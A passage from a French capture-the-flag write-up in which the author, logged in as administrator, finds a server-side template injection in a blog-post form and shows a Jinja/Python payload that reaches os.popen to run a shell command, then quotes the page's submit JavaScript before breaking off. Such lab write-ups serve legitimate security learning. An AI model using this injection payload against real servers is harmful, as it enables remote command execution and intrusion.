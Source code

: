 On a donc notre premier flag, et de quoi se connecter avec le compte administrateur.

# Obtenir un shell

Une fois connecté, on ne me laisse pas trop le choix... On a juste une page pour créer des blogpost.

![Page pour créer les blogpost](/img/Nuclea_connected.png)

Ils sont gentils, ils m'indiquent tout de suite où regarder : Une "Server Side Template Injection".

Je teste comme ils disent le fameux __{7*7}__ et en allant voir dans les blogpost, je vois bien mon post avec en contenu __49__.

Pour être honnête, je ne connais que les injections de template via jinja, mon premier reflexe est donc de tenter une injection de code python.

```python
{{ [].__class__.__mro__[1].__subclasses__()[92].__init__.__globals__['sys'].modules['os'].popen("id -a").read().encode() }}
```

Mais étrangement le bouton ajouter ne fonctionne pas...

Dans un premier temps j'ai pensé à un genre de WAF qui bloquerait des mots-clefs, puis j'ai décidé de regarder le code source de la page. On pouvait y voir un code javascript qui gère l'envoi de la requête et l'affichage de sa réponse.

```javascript
$(document).ready(function(){
        $('#submit').click(function(e){
          e.preventDefault()

          var settings = {
            "async": true,
            "url": "/admin",
            "method": "POST",
            "headers": {
              "content-type": "application/json"
            },
            "processData": false,
            "data": JSON.stringify({
              title:$('#title').val(),
              content:$('#content').val()
            })
          }

          // Send data
```